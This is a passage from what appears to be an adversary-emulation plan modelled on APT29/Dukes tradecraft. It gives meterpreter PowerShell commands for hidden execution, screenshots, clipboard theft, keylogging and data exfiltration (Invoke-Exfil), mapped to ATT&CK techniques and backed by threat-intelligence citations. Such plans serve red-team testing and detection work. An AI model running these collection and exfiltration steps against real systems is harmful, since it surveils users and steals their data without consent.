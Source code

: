 #### 7.A - User Monitoring ([T1113](https://attack.mitre.org/techniques/T1113/), [T1115](https://attack.mitre.org/techniques/T1115/), [T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/))

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite"`

[meterpreter (PowerShell)\*] > `Move-Item .\psversion.txt psversion.ps1`

[meterpreter (PowerShell)\*] > `. .\psversion.ps1`

[meterpreter (PowerShell)\*] > `Invoke-ScreenCapture;Start-Sleep -Seconds 3;View-Job -JobName "Screenshot"`

From the Windows victim, type text and copy to the clipboard.

[meterpreter (PowerShell)\*] > `Get-Clipboard`

[meterpreter (PowerShell)\*] > `Keystroke-Check`

[meterpreter (PowerShell)\*] > `Get-Keystrokes;Start-Sleep -Seconds 15;View-Job -JobName "Keystrokes"`

From victim system, enter keystrokes.

View keylog output from Metasploit:

[meterpreter (PowerShell)\*] > `View-Job -JobName "Keystrokes"`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Keystrokes" -Force`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Screenshot" -Force`

#### 7.B - Compression and Exfiltration ([T1048](https://attack.mitre.org/techniques/T1048/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))

[meterpreter (PowerShell)\*] > `Invoke-Exfil`

### Cited Intelligence

* Open Invitation Contributor: Kaspersky

* CosmicDuke’s information stealing functionality has included keylogging, taking screenshots, and stealing clipboard contents. Collected data can be exfiltrated using WebDAV. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

* CozyDuke can be used to take screenshots of a full desktop window and encrypt collected data.<sup> [15](https://securelist.com/the-cozyduke-apt/69731/) </sup>

---

## Step 8 - Lateral Movement
